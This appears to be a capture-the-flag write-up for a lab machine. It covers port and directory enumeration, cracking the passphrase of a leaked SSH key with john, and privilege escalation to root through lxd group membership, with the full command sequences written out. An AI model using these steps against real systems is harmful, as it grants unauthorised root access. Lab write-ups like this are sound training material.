 # Enumeration
We start our autorecon scan, which quickly reveals ports 22 and 80 as being open.

![a36c842083704ad69fc54f4c460fdb44.png](./_resources/a36c842083704ad69fc54f4c460fdb44.png)

We follow up with some nmap scans for confirmation and further details.

![ce66084ec830f7c252d9a7e0cf841210.png](./_resources/ce66084ec830f7c252d9a7e0cf841210.png)

![7aea1d256906aed4b83feba4a020bf01.png](./_resources/7aea1d256906aed4b83feba4a020bf01.png)

We'll use gobuster to search for any interesting directories. We'll run the following commands; the first uses a much shorter list.

`gobuster dir -u http://10.10.88.246 -w /usr/share/dirb/wordlists/common.txt -x .txt,.html`

`gobuster dir -u http://10.10.88.246 -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -x .txt,.html`

While gobuster is running, let's take a look at the web server.

![cc30416a5329f65784c6511382ef2410.png](./_resources/cc30416a5329f65784c6511382ef2410.png)

Looking around, we find an `/uploads` page which contains a dictionary file. This seems like a password list, so let's save the contents to a `passwords.txt` file.

![e115c09626e7bf48a998eb0adc0077d1.png](./_resources/e115c09626e7bf48a998eb0adc0077d1.png)

If we look at the source code of the homepage, we find a possible username in a comment.

![312bd07608bcaeef49f8c1bfb639147a.png](./_resources/312bd07608bcaeef49f8c1bfb639147a.png)

Going back to our gobuster scan results, we find a `/secret` directory containing a secret key, which appears to be a private ssh key.

![da3afdc9af6e56bfd7d1643b2dc5710e.png](./_resources/da3afdc9af6e56bfd7d1643b2dc5710e.png)

Let's download it and try to use it to ssh into the machine with the user we found. 
<br>

# Exploitation
Now let's gain initial access using the key we found. First use `chmod 600 secretKey` to ensure the key has the correct permissions set for ssh. Trying to ssh into the machine using `ssh -i secretKey john@10.10.88.246` greets us with a password prompt.

![26b0ae344178e0560d153c86998883ed.png](./_resources/26b0ae344178e0560d153c86998883ed.png)

So it seems we need a password in order to use the key we found. Let's use john to try and crack the password using the wordlist we found. First, we'll use ssh2john to convert the key into a file compatible with john: `ssh2john secretKey > secretKey.txt`. Now run john with `john --wordlist=passwords.txt secretKey.txt`. After a few seconds, we get the password. Note that we can use `john --show secretKey.txt` to print the password we cracked again.

![3c2f711113b571e2e5898b2a6553eb3e.png](./_resources/3c2f711113b571e2e5898b2a6553eb3e.png)

From here, we get initial access which we can use to read the `user.txt` flag.

![81f6b8f4a42cf69c20ffd616efe4abd9.png](./_resources/81f6b8f4a42cf69c20ffd616efe4abd9.png)

![1583340199405cc6be38ef67c5c6a524.png](./_resources/1583340199405cc6be38ef67c5c6a524.png)
<br>

# Post-Exploitation
Let's look for possible privesc methods. Using `id`, we can we john's user and group information.

![d3944f5f8794869920f55a180c04afe4.png](./_resources/d3944f5f8794869920f55a180c04afe4.png)

A bit of Googling tells us we can exploit the fact that john belongs to the `lxd` group.  LXD refers to a container management system for Linux Containers; [this](https://www.hackingarticles.in/lxd-privilege-escalation) page gives a brief explanation, and also describes the exploit we will use. The exploit can also be found on [HackTricks](https://book.hacktricks.xyz/linux-hardening/privilege-escalation/interesting-groups-linux-pe/lxd-privilege-escalation.

Our first step will be to build an Alpine Linux image on the attacking machine. We use:

```bash
git clone https://github.com/saghul/lxd-alpine-builder.git
cd lxd-alpine-builder
./build-alpine
```

This produces a tar.gz file in the current directory.

![23458f87df707ecdd02a3290f2a918ff.png](./_resources/23458f87df707ecdd02a3290f2a918ff.png)

Next, host a web server with `python3 -m http.server` and download the tar.gz file on the target machine. We then add the Alpine image as an image to LXD using:

```bash
lxc image import ./alpine-v3.13-x86_64-20210218_0139.tar.gz
```

We can verify that this worked using `lxc image list`.

![54ebdd545d0ad5aae5cf0ff43f674f11.png](./_resources/54ebdd545d0ad5aae5cf0ff43f674f11.png)

Now we run the following sequence of commands to create a container using the image.

```bash
lxc init <image fingerprint> ignite -c security.privileged=true
lxc config device add ignite <image fingerprint> disk source=/ path=/mnt/root recursive=true
lxc start ignite
lxc exec ignite /bin/sh
```

![dcdabbccaf8003754314eafed2a231a1.png](./_resources/dcdabbccaf8003754314eafed2a231a1.png)

It looks like we have root privileges within the container! Let's use `cd /mnt/root` to navigate to the file system, since this is where it is mounted. We then `cd` into `/root`, where we find the `root.txt` flag.

![0962c9a4915335f41beb70e4ac5e81f2.png](./_resources/0962c9a4915335f41beb70e4ac5e81f2.png)